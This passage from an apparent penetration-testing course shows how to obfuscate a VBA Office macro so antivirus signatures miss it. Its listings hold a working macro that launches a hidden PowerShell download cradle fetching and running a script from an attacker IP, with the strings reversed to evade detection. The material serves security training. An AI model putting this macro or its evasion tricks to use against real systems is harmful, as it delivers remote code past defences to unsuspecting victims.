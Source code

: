 (Microsoft, 2018), [https://docs.microsoft.com/en-gb/windows/win32/cimwin32prov/create-method-in-class-win32-process](https://docs.microsoft.com/en-gb/windows/win32/cimwin32prov/create-method-in-class-win32-process) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fnref-local_id_283-8)

#### 9.8.3. Obfuscating VBA

So far, we have found that the detections on our VBA macro are mainly from signatures since we have string content that is very easy to match, and switching the process creation technique did not change the detection rate.

In this section, we are going to perform some obfuscation[1](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fn-local_id_284-1) to hide the content of any text strings from the antivirus scanner. The current VBA macro has three of these: the PowerShell download cradle, the WMI connection string, and the WMI class name.

We will make two attempts at obfuscating the strings. The first will be a relatively simple technique, while the second will be more complex.

VBA contains a function called _StrReverse_[2](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fn-local_id_284-2) that, given an input string, returns a string in which the character order is reversed. Our first obfuscation technique is going to rely on reversing all strings to hopefully break the signature detections.

We could reverse our content strings in a number of ways, but in this case we'll use the _Code Beautify_[3](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fn-local_id_284-3) online resource. Listing 42 shows our updated code after reversing the strings and inserting the _StrReverse_ functions to restore them:

```
Sub Mymacro()
Dim strArg As String
strArg = StrReverse("))'txt.nur/021.911.861.291//:ptth'(gnirtsdaolnwod.)tneilcbew.ten.metsys tcejbo-wen((xei c- pon- ssapyb cexe- llehsrewop")

GetObject(StrReverse(":stmgmniw")).Get(StrReverse("ssecorP_23niW")).Create strArg, Null, Null, pid
End Sub
```

> Listing 42 - Strings in reverse to evade detection

Our code runs properly but we may have replaced one red flag with another. Since _StrReverse_ is notoriously used in malware, we should minimize its use.

To reduce the amount of times the function name appears, we'll create a new function that simply calls _StrReverse_. This will reduce the number of times _StrReverse_ appears in our code. As shown in Listing 43, we have inserted this function and used benign names for the function and argument names:

```
Function bears(cows)
    bears = StrReverse(cows)
End Function

Sub Mymacro()
Dim strArg As String
strArg = bears("))'txt.nur/021.911.861.291//:ptth'(gnirtsdaolnwod.)tneilcbew.ten.metsys tcejbo-wen((xei c- pon- ssapyb cexe- llehsrewop")

GetObject(bears(":stmgmniw")).Get(bears("ssecorP_23niW")).Create strArg, Null, Null, pid
End Sub
```
